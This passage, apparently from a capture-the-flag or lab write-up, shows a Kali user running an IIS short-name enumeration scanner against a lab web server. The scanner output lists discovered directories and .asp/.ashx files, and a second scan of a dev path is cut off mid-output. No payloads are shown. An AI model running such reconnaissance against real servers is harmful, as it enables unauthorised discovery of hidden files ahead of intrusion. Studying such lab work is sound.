 ```
[+] /newfol~1.*	[scan in progress]
[+] /puppa2~1.*	[scan in progress]
[+] /tunnel~1.*	[scan in progress]
[+] /ds_sto~1	[scan in progress]
[+] Directory /ds_sto~1	[Done]
[+] /arkant~1.a*	[scan in progress]
[+] /snado_~1.*	[scan in progress]
[+] /templa~1	[scan in progress]
[+] Directory /templa~1	[Done]
[+] /trashe~1	[scan in progress]
[+] Directory /trashe~1	[Done]
[+] /newfol~1	[scan in progress]
[+] Directory /newfol~1	[Done]
[+] /puppa2~1.a*	[scan in progress]
[+] /tunnel~1.a*	[scan in progress]
[+] /arkant~1.as*	[scan in progress]
[+] /snado_~1.t*	[scan in progress]
[+] /puppa2~1.as*	[scan in progress]
[+] /tunnel~1.as*	[scan in progress]
[+] /arkant~1.asp*	[scan in progress]
[+] File /arkant~1.asp*	[Done]
[+] /snado_~1.tx*	[scan in progress]
[+] /puppa2~1.asp*	[scan in progress]
[+] File /puppa2~1.asp*	[Done]
[+] /tunnel~1.ash*	[scan in progress]
[+] File /tunnel~1.ash*	[Done]
[+] /tunnel~1.asp*	[scan in progress]
[+] File /tunnel~1.asp*	[Done]
[+] /snado_~1.txt*	[scan in progress]
[+] File /snado_~1.txt*	[Done]
----------------------------------------------------------------
Dir:  /ds_sto~1
Dir:  /templa~1
Dir:  /trashe~1
Dir:  /newfol~1
File: /arkant~1.asp*
File: /puppa2~1.asp*
File: /tunnel~1.ash*
File: /tunnel~1.asp*
File: /snado_~1.txt*
----------------------------------------------------------------
4 Directories, 5 Files found in total
Note that * is a wildcard, matches any character zero or more times.
```

Nothing interesting in the main directory. The .asp files are leftover from other teams.

Let's check those folders we found with the ds_store scanner:

```
root@kali:~/IIS_shortname_Scanner# python iis_shortname_Scan.py http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc
Server is vulnerable, please wait, scanning...
[+] /dev/dca66d38fd916317687e1390a420c3fc/p~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/d~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/ds~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/pu~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/pup~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/ds_~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/pupp~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/ds_s~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/puppa~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/ds_st~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/ds_sto~1.*	[scan in progress]
```
